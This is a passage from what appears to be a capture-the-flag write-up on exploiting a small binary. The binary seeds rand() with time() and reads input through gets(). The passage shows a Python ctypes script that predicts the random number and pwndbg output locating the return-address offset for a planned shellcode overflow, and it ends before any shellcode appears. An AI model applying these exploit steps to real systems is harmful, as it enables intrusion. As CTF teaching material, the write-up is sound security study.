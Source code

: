 As expected, it generates a random number seeded with ```time()``` which needs to be guessed somehow, then it calls ```gift()```

![gift](https://miro.medium.com/v2/resize:fit:640/format:webp/1*KL3CwJaHwwwQvB0fXz6o-A.png)

```gift()``` only invokes ```gets()```, so we have a **buffer overflow which mostly will be used for writing shellcode and jumping to it.**


### Pwning Stage ☠️

To pwn this exe, we need two things:
1. a way to expect exactly the number generated by rand
2. injecting shellcode and jump to it

First, let’s expect the random generated number by this code written by ChatGPT which uses libc to use libc rand & seed functions

```c
import time
import ctypes

libc = ctypes.CDLL("libc.so.6")
current_time = int(time.time())
libc.srand(current_time)
rand_value = libc.rand()
num = rand_value % 1000
```

The above code simply uses ```srand()``` and ```rand()``` function from libc rather than the ones provided by Python

Now, let’s calcualate rip offset in gift function using ```cyclic 100```

```
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> c
Continuing.
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```
```
► 0         0x4011d0 gift+42
   1 0x616161616161616a None
   2 0x616161616161616b None
   3 0x616161616161616c None
   4   0x7f006161616d None
   5         0x401303 main+89
───────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l 0x616161616161616a
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
pwndbg>
```
